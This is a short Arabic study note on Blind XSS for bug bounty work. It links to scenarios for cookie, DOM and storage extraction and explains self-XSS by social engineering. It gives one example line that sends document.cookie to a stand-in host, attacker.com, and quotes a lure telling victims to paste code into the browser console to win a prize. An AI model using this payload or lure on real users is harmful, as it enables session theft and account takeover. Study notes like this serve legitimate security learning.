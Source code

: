 #### شرحها علشان تفهمها :   
- [[شرح الخطوه Blind XSS Payloads]]
- [[شرح فديوهات لل الخطوة Blind XSS Payloads]]


### طرق الاستغلال :
- ء
	- [[سيناريوهات اللي هستخدمها في الخطوه  Blind XSS Payloads#أ. حقن لتأكيد التنفيذ]]
	- [[سيناريوهات اللي هستخدمها في الخطوه  Blind XSS Payloads#ب. استخراج ملفات تعريف الارتباط]]
	- [[سيناريوهات اللي هستخدمها في الخطوه  Blind XSS Payloads#ج. استخراج محتوى DOM]]
	- [[سيناريوهات اللي هستخدمها في الخطوه  Blind XSS Payloads#د. استخراج بيانات التخزين]]
	- [[سيناريوهات اللي هستخدمها في الخطوه  Blind XSS Payloads#هـ. حقن مع التعتيم]]

#### ✅ فكرة الهجوم:

الضحية هو اللي بينفذ الكود على نفسه عن طريق social engineering. مش بيدفعوا فيه فلوس في Bug Bounty، لكن ممكن يتربط بـ CSRF أو CORS.

#### ✅ مثال:

"انسخ الكود ده والصقه في Console عشان تفوز بجائزة":
```javascript
fetch('http://attacker.com/steal?cookie=' + document.cookie)
```

### البايلود اللي تستخدمها :

![[XSS_exploit_pyloads.txt]]
#### افكار عليها :
#XSS_exploit